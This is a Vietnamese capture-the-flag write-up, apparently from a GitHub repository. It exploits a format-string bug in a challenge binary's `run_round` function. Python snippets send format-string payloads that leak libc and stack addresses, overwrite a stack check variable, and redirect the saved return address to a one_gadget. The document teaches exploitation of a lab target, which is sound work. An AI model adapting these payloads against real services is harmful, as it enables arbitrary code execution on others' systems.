







- Ở bài này ta thấy ngay bug là fmt tại hàm `run_round`

- 

- 

- Tuy nhiên với `size` của `buf > 1` thì chương trình sẽ kết thúc

- Thật may địa chỉ của `check` lại nằm trên `stack` do đó ta có thể dùng `fmt` để thay đổi nó.

- 

- Đầu tiên ta sẽ leak `libc` và `stack` đồng thời thay đổi giá trị của `check` 

- ```python
  fmt = b'%13$p%8$p%7$hn'
  r.sendlineafter(b'do-overs.\n', fmt)
  libc_leak = r.recv(14)
  stack = r.recv(14)
  stack = int(stack, 16)
  libc.address = int(libc_leak, 16) - libc.sym['__libc_start_main'] - 243
  print(hex(libc.address))
  print(hex(stack))
  ```

- Mục tiêu của ta là sẽ thay đổi `libc_start_main_ret` thành `one_gadget`

- Do `buf` nằm trên `bss` nên ta không thể đưa trực tiếp địa `0x7fffffffdd58` để thay đổi `libc_start_main_ret` nên ta sẽ đưa nó bằng cách gián tiếp thông qua `fmt`

- 

- Ta sẽ thay đổi `0x7fffffffde48` để nó trỏ đến `0x7fffffffdd58` và `0x7fffffffde58` trỏ đến `0x7fffffffdd5a`

- ```python
  fmt = f'%{save_rip & 0xffff}c%30$hn%2c%31$hn%7$hn'
  ```

- 

- do mỗi lần chỉ nên ghi 2 byte nên ta sẽ ghi 2 byte cuối của `one_gadget` lên `0x7fffffffdd58` và 1 byte tiếp lên `0x7fffffffdd5a`

- ```python
  fmt = f"%{(libc.sym['one_gadget'] >> 16) & 0xff}c%45$hhn"
  fmt += f"%{(libc.sym['one_gadget'] & 0xffff) - ((libc.sym['one_gadget'] >> 16) & 0xff)}c%43$hn"
  r.sendlineafter(b'chance.\n', fmt)
  ```

- 

- 